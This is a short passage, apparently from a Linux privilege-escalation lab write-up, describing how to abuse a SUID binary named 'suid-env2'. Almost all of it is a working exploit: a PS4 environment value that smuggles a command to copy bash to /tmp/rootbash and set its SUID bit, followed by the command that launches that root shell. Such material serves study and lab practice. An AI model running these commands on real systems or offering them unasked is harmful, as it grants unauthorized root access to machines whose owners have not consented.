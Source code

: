**Note:** This will not work on Bash versions 4.4 and above.
1. Run the debugging mode
```console
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2
```
2. Run the new service just made by
```console
/tmp/rootbash -p
```
